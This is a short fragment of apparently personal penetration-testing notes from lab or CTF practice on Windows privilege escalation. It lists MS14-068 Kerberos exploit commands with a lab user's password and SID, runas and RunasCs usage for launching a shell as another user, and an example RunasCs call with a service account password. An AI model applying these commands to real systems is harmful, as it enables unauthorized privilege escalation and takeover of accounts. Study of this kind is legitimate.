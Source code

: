 多用户登录、认证问题，参考
https://blog.csdn.net/Captain_RB/article/details/107883264

**ms14-068 提权**

```bash
systeminfo | find "3011780"
whoami /user

MS14-068.exe -u Hellen@cyberpeace.com -p Hellen1818 -s S-1-5-21-2718660907-658632824-2072795563-1110 -d omainControl.cyberpeace.com
```

## Runas
+ runas another administrator or users
+ when you got password, but ssh/rdp/win-rm not available, try runas in the foothold.
+ pg-DVR4 
+ RunAsCs, not password prompt; [RunasCsvv](https://github.com/antonioCoco/RunasCs)

```bash
# /env, use the current env instead of user's
# /profile, specifies that the user's profile should be load. default value
runas /env /profile /user:administrator "c:\users\viewer\shell.exe"

# RunAsCs, x86 and x64
RunasCs_net2.exe --help
RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t process_timeout] [--create-profile]

RunasCs_net4.exe svc_mssql trustno1 'whoami'
```


